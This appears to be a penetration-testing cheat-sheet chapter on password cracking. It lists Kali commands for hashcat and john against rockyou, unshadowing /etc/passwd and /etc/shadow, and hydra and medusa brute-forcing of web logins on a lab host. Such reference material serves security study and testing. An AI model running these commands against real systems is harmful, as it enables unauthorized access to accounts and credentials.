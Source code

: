 Chapter 7 - Cracking

> The time to crack a password is related to bit strength, which is a measure of the password's entropy and the details of how the password is stored. Most methods of password cracking require the computer to produce many candidate passwords, each of which is checked. One example is brute-force cracking, in which a computer tries every possible key or password until it succeeds. More common methods of password cracking, such as dictionary attacks, pattern checking, word list substitution, etc. attempt to reduce the number of trials required and will usually be attempted before brute force. Higher password bit strength exponentially increases the number of candidate passwords that must be checked, on average, to recover the password and reduces the likelihood that the password will be found in any cracking dictionary.
>
> _**— Wikipedia**_

looking for contributions to this section. Please DM me on [Twitter](https://twitter.com/dostoevskylabs)

#### Hash Identification

```
Kali> hash-identifier
> HASH64256BLOOBLAHHAHAHEHE
```

#### Decoding

```
Kali> echo"BASE64"| base64 -d
Kali> echo"d3 4d b3 3f"| xxd -r -ps
```

#### Wordlist Generation

###### Crunch

```
Kali>
 crunch 6 6 0123456789ABCDEF -o crunch.txt
```

###### CEWL

```
Kali> cewl www.wikipedia.com -m 6 -w passwords.txt
```

###### John

```
Kali> nano /etc/john/john.conf
Kali> john --wordlist=passwords.txt --rules --stdout > mutated
```

#### Hashcat

```
Kali> hashcat -m 400 -a 0 hash /usr/share/wordlists/rockyou.txt
Kali> oclHashcat64.bin -m 110 hash.txt ../wordlist.txt --force
```

#### Converting for John attacks

```
Kali> ssh2john file > newfile
Kali> unshadow /etc/passwd /etc/shadow > unshadowed.txt
```

#### John

```
Kali> john crackfile --wordlist=/usr/share/wordlists/rockyou.txt
```

#### BruteForcing

###### Hydra

```
Kali> hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password" -V -I
```

###### Medusa

```
Kali> medusa -h $TARGET -u admin -P passwords.txt -M http -m DIR:/admin -T 10
```



